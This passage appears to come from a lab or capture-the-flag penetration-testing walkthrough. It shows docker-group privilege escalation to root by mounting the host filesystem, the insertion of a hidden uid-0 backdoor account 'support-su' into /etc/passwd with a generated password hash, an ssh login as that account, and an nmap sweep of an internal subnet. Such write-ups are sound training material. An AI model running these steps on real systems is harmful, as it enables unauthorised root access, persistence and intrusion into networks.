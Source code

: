 Again we can take advantage of the docker suid vulnearbility to add another user with root privileges to the box. First get the root shell:

    docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt bash
                .-/+oossssoo+/-.               root@0acf73a8ca6d 
            `:+ssssssssssssssssss+:`           -----------------                                                                                                                           
          -+ssssssssssssssssssyyssss+-         OS: Ubuntu 20.04.1 LTS x86_64                                                                                                               
            ................................................................                                                                                            
            `:+ssssssssssssssssss+:`                                                                                                                                                       
                .-/+oossssoo+/-.                                                                                                                                                           

    root@0acf73a8ca6d:/# 

Now we can proceed to add a new entry to the /etc/passwd file with root privilege, but first we need to generate a compliance [password hash](https://unix.stackexchange.com/questions/81240/manually-generate-password-for-etc-shadow):

    openssl passwd -6 -salt xyz Pwd1234
    $6$xyz$QPpRe.vKRkmPLc0hZLHMNMuoYIM96CzLbWVluRaUH3NPycNnP6Z4WiGcI6v/kM7yDZu7rJALqIc8Pvgu64Akt.

Then we can insert at the end of the /etc/passwd file the following line:

    vi /etc/passwd
    ....
    support-su:$6$xyz$QPpRe.vKRkmPLc0hZLHMNMuoYIM96CzLbWVluRaUH3NPycNnP6Z4WiGcI6v/kM7yDZu7rJALqIc8Pvgu64Akt.:0:0:root:/root:/bin/bash

Actually we are inserting an alias for the root user called <b>support-su</b>. Now we can proceed to login with ssh using the newly added user:

    ssh support-su@10.200.95.33
    ...
    Last login: Mon Jun 17 22:32:35 2024 from 10.50.74.35
            .-/+oossssoo+/-.               support-su@ip-10-200-95-33 
        `:+ssssssssssssssssss+:`           -------------------------- 
    ...
    root@ip-10-200-95-33:~# 

From this host we can perform a further host discovery on the 10.200.95.0/24 subnet. Luckily nmap is already installed on the server:

    root@ip-10-200-95-33:~# whereis nmap
    nmap: /usr/bin/nmap /usr/share/nmap /usr/share/man/man1/nmap.1.gz

<b>Note that we have already performed this scan through the VPN in the initial phase, but we were not able to reach all the available hosts</b>

    nmap -sn  10.200.95.0/24
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-06-11 07:35 UTC
    Nmap scan report for ip-10-200-95-1.eu-west-1.compute.internal (10.200.95.1)
    Host is up (0.00014s latency).
    MAC Address: 02:63:DC:A0:13:35 (Unknown)
    Nmap scan report for ip-10-200-95-30.eu-west-1.compute.internal (10.200.95.30)
    Host is up (0.00034s latency).
    MAC Address: 02:E1:49:12:02:89 (Unknown)
    Nmap scan report for ip-10-200-95-31.eu-west-1.compute.internal (10.200.95.31)
    Host is up (0.00045s latency).
    MAC Address: 02:2E:32:D4:EF:DF (Unknown)
    Nmap scan report for ip-10-200-95-32.eu-west-1.compute.internal (10.200.95.32)
    Host is up (0.00032s latency).
    MAC Address: 02:6D:98:96:8D:63 (Unknown)
    Nmap scan report for ip-10-200-95-35.eu-west-1.compute.internal (10.200.95.35)
    Host is up (0.00037s latency).
    MAC Address: 02:45:FB:50:E0:27 (Unknown)
    Nmap scan report for ip-10-200-95-250.eu-west-1.compute.internal (10.200.95.250)
    Host is up (0.00020s latency).
    MAC Address: 02:6A:9F:5F:BA:47 (Unknown)
    Nmap scan report for ip-10-200-95-33.eu-west-1.compute.internal (10.200.95.33)
    Host is up.